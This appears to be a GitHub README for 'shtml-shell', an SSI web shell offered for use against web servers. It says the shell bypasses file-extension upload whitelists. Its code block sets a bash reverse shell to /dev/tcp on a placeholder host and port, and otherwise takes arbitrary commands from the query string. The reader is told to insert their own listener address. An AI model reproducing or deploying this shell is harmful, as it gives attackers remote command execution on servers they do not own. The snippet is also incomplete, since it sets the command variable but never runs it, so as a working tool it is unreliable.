 # shtml-shell

This Shell abuses the Server Side Inclusions in HTML and allow you get get a reverse connection back to your own machin 

This can come in handy when you want to get arround file extension whitlist

Please change 0.0.0.0 to your host and 1337 to your port in the following lines if you want to get the reverse connection

```sh

<!--#if expr="$QUERY_STRING_UNESCAPED = \$zero" -->
<!--#set var="shl" value="bash -i >& /dev/tcp/0.0.0.0/1337 0>&1" --> 
<!--#else -->
<!--#set var="shl" value=$QUERY_STRING_UNESCAPED -->
<!--#endif -->

 ```
[![Shell Screenshot][product-screenshot]]

Referenses : 

 * What is SSI : https://httpd.apache.org/docs/current/howto/ssi.html#:~:text=What%20are%20SSI%3F,program%2C%20or%20other%20dynamic%20technology.
 
 * Learn about SSI : https://www.st-andrews.ac.uk/itsnew/web/ssi/

 * Documentation : https://httpd.apache.org/docs/2.4/mod/mod_include.html


[product-screenshot]: Img/ssi-shell.png